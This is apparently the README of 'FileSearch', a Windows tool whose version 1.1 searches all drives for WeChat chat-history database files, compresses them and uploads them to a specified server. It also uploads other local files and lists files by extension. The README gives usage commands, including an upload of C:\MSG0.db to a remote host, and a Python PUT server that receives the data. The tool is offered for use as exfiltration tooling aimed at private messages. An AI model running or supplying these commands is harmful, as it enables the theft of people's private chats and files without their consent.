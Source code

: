 # FileSearch

## 更新
### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用c++第三方库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器
2、压缩本地文件并上传到指定服务器
3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
